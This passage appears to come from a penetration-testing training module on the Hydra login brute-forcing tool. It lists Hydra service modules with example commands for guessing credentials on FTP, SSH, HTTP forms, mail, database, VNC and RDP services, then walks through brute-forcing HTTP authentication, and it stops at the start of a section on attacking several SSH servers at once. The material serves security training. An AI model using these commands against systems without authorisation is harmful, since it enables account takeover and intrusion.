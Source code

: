### Hydra Services

Hydra services essentially define the specific protocols or services that Hydra can target. They enable Hydra to interact with different authentication mechanisms used by various systems, applications, and network services. Each module is designed to understand a particular protocol's communication patterns and authentication requirements, allowing Hydra to send appropriate login requests and interpret the responses. Below is a table of commonly used services:

|Hydra Service|Service/Protocol|Description|Example Command|
|---|---|---|---|
|ftp|File Transfer Protocol (FTP)|Used to brute-force login credentials for FTP services, commonly used to transfer files over a network.|`hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`|
|ssh|Secure Shell (SSH)|Targets SSH services to brute-force credentials, commonly used for secure remote login to systems.|`hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`|
|http-get/post|HTTP Web Services|Used to brute-force login credentials for HTTP web login forms using either GET or POST requests.|`hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`|
|smtp|Simple Mail Transfer Protocol|Attacks email servers by brute-forcing login credentials for SMTP, commonly used to send emails.|`hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`|
|pop3|Post Office Protocol (POP3)|Targets email retrieval services to brute-force credentials for POP3 login.|`hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`|
|imap|Internet Message Access Protocol|Used to brute-force credentials for IMAP services, which allow users to access their email remotely.|`hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`|
|mysql|MySQL Database|Attempts to brute-force login credentials for MySQL databases.|`hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`|
|mssql|Microsoft SQL Server|Targets Microsoft SQL servers to brute-force database login credentials.|`hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`|
|vnc|Virtual Network Computing (VNC)|Brute-forces VNC services, used for remote desktop access.|`hydra -P /path/to/password_list.txt vnc://192.168.1.100`|
|rdp|Remote Desktop Protocol (RDP)|Targets Microsoft RDP services for remote login brute-forcing.|`hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`|

### Brute-Forcing HTTP Authentication

Imagine you're tasked with testing the security of a website using basic HTTP authentication at `www.example.com`. You have a list of potential usernames stored in `usernames.txt` and corresponding passwords in `passwords.txt`. To launch a brute-force attack against this HTTP service, use the following Hydra command:

  Hydra

```shell-session
anasec@htb[/htb]$ hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

This command instructs Hydra to:

- Use the list of usernames from the `usernames.txt` file.
- Use the list of passwords from the `passwords.txt` file.
- Target the website `www.example.com`.
- Employ the `http-get` module to test the HTTP authentication.

Hydra will systematically try each username-password combination against the target website to discover a valid login.

### Targeting Multiple SSH Servers

Consider a situation where you have identified several servers that may be vulnerable to SSH brute-force attacks. You compile their IP addresses into a file named `targets.txt` and know that these servers might use the default username "root" and password "toor." To efficiently test all these servers simultaneously, use the following Hydra command:
